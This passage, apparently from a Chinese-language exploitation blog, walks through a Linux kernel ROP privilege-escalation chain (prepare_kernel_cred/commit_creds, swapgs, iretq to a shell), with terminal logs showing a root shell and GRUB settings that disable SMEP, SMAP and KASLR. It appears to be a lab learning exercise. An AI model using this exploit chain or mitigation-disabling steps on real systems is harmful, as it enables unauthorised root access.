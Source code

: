最后，将所有的rop chain放在一起：
```c
 save_state();
	fake_stack = (unsigned long *)(stack_addr);
	*fake_stack ++= 0xffffffff81016bc5UL; /* pop %rdi; ret */

	fake_stack = (unsigned long *)(stack_addr + 0x14ff + 8);

	*fake_stack ++= 0x0UL;                /* NULL */ 
	*fake_stack ++= 0xffffffff81094630UL; /* prepare_kernel_cred() */

	*fake_stack ++= 0xffffffff810e00d1UL; /* pop %rdx; ret */
	//*fake_stack ++= 0xffffffff81095190UL; /* commit_creds() */
	*fake_stack ++= 0xffffffff81094356UL; // commit_creds() + 2 instructions

	*fake_stack ++= 0xffffffff810364bfUL; /* mov %rax, %rdi; call %rdx */

 *fake_stack ++= 0xffffffff810515e4UL; // swapgs 
 //*fake_stack ++= 0xdeadbeefUL;       // dummy placeholder 

	*fake_stack ++= 0xffffffff81735807UL; /* iretq */
	*fake_stack ++= (unsigned long)shell; /* spawn a shell */
	*fake_stack ++= user_cs;              /* saved CS */
	*fake_stack ++= user_rflags;          /* saved EFLAGS */
 *fake_stack ++= (unsigned long)(temp_stack+0x5000000);  /* mmaped stack region in user space */
 *fake_stack ++= user_ss;              /* saved SS */
```
可惜最后在我的系统上没试验成功，不知道啥原因~
```
w0lfzhang@w0lfzhang666:~/Desktop/kernel_exploit/examples/ROP$ dmesg | grep ops
[ 8933.372862] addr(ops) = ffffffffa035a340

w0lfzhang@w0lfzhang666:~/Desktop/kernel_exploit/examples/ROP$ ./find_offset.py ffffffffa035a340 gadgets 
offset = 18446744073644211981
gadget:  0xffffffff810d9ba8 : xchg eax, esp ; ret 0x14ff

stack addr = 810d9ba8

w0lfzhang@w0lfzhang666:~/Desktop/kernel_exploit/examples/ROP$ ./rop_exploit 18446744073644211981 ffffffffa035a340
array base address = 0xffffffffa035a340
stack address = 0x810d9ba8
Killed
```
后来过了发现是smap的原因，关了smap就可以了。因为kernel stack被转移到用户空间，所以当访问stack上的数据时会触发内核page fault。不过这次我是在ubuntu 12.04.5上做的实验，刚开始也是失败了，后来关了smap后就成功了。
```
to disable smep/smap/kaslr in linux:
add 'nosmep/nosmap/nokaslr' here: GRUB_CMDLINE_LINUX="nosmep/nosmap/nokaslr" in /etc/default/grub, then update-grub2.
```
smap确实是被关闭了：
```
w0lfzhang@w0lfzhang-666:~$ cat /proc/cpuinfo | grep smap
w0lfzhang@w0lfzhang-666:~$ 
```
然后我们执行exp：
```
w0lfzhang@w0lfzhang-666:~/Desktop/kernel_rop$ ./rop_exploit 18446744073644207075 ffffffffa0318340
array base address = 0xffffffffa0318340
stack address = 0x8108e258
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```